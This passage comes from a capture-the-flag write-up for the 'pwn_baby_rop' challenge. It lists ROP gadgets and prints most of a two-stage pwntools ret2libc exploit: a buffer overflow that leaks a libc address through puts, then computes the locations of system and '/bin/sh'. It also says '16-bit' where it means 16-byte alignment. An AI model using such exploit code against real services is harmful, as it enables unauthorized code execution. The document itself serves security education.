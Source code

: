 [This StackOverflow thread](https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul) does a good job at explaining the cause of this problem. Basically, LIBC expects the stack to be 16-bit aligned when a function is called and uses this property to optimize some portions of its code. The solution is very simple: call a ret instruction. We can find a ret gadget in the main program using rp++:

{% highlight auto %}
$ rp-lin-x64 -f pwn_baby_rop -r 1 --unique | grep ret
0x004015f1: add cl, cl ; ret  ;  (1 found)
0x00401017: add esp, 0x08 ; ret  ;  (2 found)
0x00401016: add rsp, 0x08 ; ret  ;  (2 found)
0x004010c3: cli  ; ret  ;  (2 found)
0x0040164c: fisttp word [rax-0x7D] ; ret  ;  (1 found)
0x004010c0: hint_nop edx ; ret  ;  (4 found)
0x0040145a: leave  ; ret  ;  (2 found)
0x004010ee: nop  ; ret  ;  (3 found)
0x00401662: pop r15 ; ret  ;  (1 found)
0x0040115d: pop rbp ; ret  ;  (1 found)
0x00401663: pop rdi ; ret  ;  (1 found)
0x0040101a: ret  ;  (12 found)
{% endhighlight %}

The final script looks like this:

{% highlight python %}
from pwn import *

env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu8_amd64.so"}
#io = process("./pwn_baby_rop", env=env)
io = remote("34.89.143.158", 31042)

io.recvuntil("black magic.\n")

#gdb.attach(io)

# 1st stage
pop_rdi = 0x00401663
puts_got = 0x404018
puts = 0x401060
main = 0x40145C

payload = b""
payload += b"A" * 256
payload += b"B" * 8
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts)
payload += p64(main)

io.sendline(payload)
puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info("puts: " + hex(puts_addr))

# 2nd stage
puts_offset = 0x0875a0
system_offset = 0x055410
bin_sh_offset =  0x1b75aa

libc_base = puts_addr - puts_offset
system = libc_base + system_offset
bin_sh = libc_base + bin_sh_offset
log.info("libc_base: " + hex(libc_base))
log.info("system: " + hex(system))
log.info("bin_sh: " + hex(bin_sh))
